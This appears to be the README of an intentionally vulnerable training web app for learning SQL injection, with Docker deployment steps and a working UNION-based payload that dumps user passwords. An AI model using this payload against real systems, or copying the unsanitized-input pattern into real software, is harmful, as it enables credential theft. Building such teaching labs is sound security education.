

# SQLi Platform

This is a vulnerable WEB application in order to understand SQL injections
basics.

The front end exposes a field allowing the user to search a database
and retrieve names, nicknames, mails... The user's inputs are not
sanitized, allowing an attacker to inject SQL code and leak passwords.

SQL queries are logged on the backend and are also shown on the front,
so that the attacker has a better understanding of what he is doing.




## Deploy

You may run the application under Docker containers:

```
docker-compose up
```

You way edit `docker-compose.yml` in order to tweak the following settings :

- MYSQL_ROOT_PASSWORD `Databse password`
- SQL_HOST=database `Database host, from the API point of view`
- SQL_WAIT=20 `API waiting for that time (in seconds) before connecting to the database`

The application is then accessible on [http://localhost:8080/](http://localhost:8080/).


## Exploit

Here is an example of a working payload, esposing all passwords in the table:

```sql
nothing%" UNION SELECT pass, nickname, email FROM users#
```

Resulting in the following complete query :

```sql
SELECT id, nickname, email FROM users WHERE nickname LIKE "%nothing%" UNION SELECT pass, nickname, email FROM users#%"
```
